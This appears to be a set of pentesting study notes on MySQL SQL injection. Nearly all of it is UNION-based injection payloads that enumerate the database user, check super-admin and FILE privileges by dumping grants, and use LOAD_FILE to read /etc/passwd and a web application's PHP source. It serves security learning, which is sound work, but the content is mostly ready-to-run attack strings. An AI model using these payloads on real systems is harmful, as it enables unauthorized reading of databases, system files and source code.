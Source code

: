 ## Privileges

Privileges to read files are much more common than to write files.

### DB User

It might be that only the database administrator (DBA) has rights to read data, so if we are not that user we need to check are privileges.

Queries to find the current DB user:
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

The UNION injection payload with 1 of the queries:
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

### User Privileges

Check for super admin privileges:
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

We can also check for a specific user:
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

It will return 'Y' if we do have super admin privileges.

Dump other privileges:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

For a specific user:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

If we see the FILE privilege it means we can read files and potentially write files.

## LOAD_FILE

Read a file:
```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

Another example to read the source code:
```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

You can find the PHP code in the source code.